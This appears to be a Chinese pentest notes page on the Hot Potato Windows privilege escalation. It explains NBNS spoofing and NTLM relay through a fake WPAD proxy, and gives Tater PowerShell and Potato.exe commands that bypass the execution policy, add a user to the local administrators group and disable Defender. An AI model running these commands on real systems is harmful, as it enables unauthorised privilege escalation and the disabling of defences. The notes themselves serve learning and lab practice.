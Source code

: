 ```yaml
---
title: HotPotato提权
categories:
- windows
tags:
- windows
---
```

HotPotato提权
===
参考资料：
- [https://pentestlab.blog/2017/04/13/hot-potato/](https://pentestlab.blog/2017/04/13/hot-potato/)
- [hot-potato漏洞发现者的博客](https://foxglovesecurity.com/2016/01/16/hot-potato/)
- [https://ivanitlearning.wordpress.com/2019/07/20/potato-privilege-escalation-exploits-for-windows/comment-page-1/](https://ivanitlearning.wordpress.com/2019/07/20/potato-privilege-escalation-exploits-for-windows/comment-page-1/)
- [https://github.com/Kevin-Robertson/Tater](https://github.com/Kevin-Robertson/Tater)
- [NTLM Reflection Bugs](https://shenaniganslabs.io/2019/11/12/Ghost-Potato.html)

视频教程地址：[https://www.bilibili.com/video/av91087772](https://www.bilibili.com/video/av91087772)

该技术由两个已知的windows问题组成。1. NBNS欺骗 2.NTLM中继与伪造的WPAD代理服务器的实现

NBNS是广播UDP协议，用于Windows环境中常用的名称解析。

通过与SMB相同的协议进行的NTLM身份验证已由Microsoft修补，但是该技术使用HTTP到SMB身份验证以创建高特权服务，因为HTTP请求可能来自诸如Windows更新之类的高特权服务。 由于流量包含NTLM凭据，并且正在通过伪造的代理服务器传递，因此可以对其进行捕获并将其传递给本地SMB侦听器，以创建可以作为SYSTEM执行任何命令的服务。

引申出一个话题，编程能力到底重要不重要？对于渗透测试，coding是一个什么样的地位？黑客就是程序员吗？

水平高超的黑客必定掌握娴熟的编码能力，使用程序来达到自己的目的。

世界上的编程语言几十种上百种，是个人都不能完全掌握。只要完全掌握一种编程语言，加上一种脚本语言就够了。

掌握的越多越好？ 
二十一世纪是分工与合作的世纪，掌握的多不代表就精通。不如一个人掌握一个方面，然后与其他人合作。

```
#windows 7运行：
powershell.exe -nop -ep bypass
Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1

Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"

---
#windows 10运行：
powershell.exe -nop -ep bypass
Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
Invoke-Tater -Trigger 2 -Command "net localgroup administrators user /add"
```
net user user

---
```
Potato.exe -ip 192.168.1.105 -cmd "C:\\Windows\\System32\\cmd.exe -k net localgroup Administrators user /add" -disable_exhaust true -disable_defender true

运行失败
```

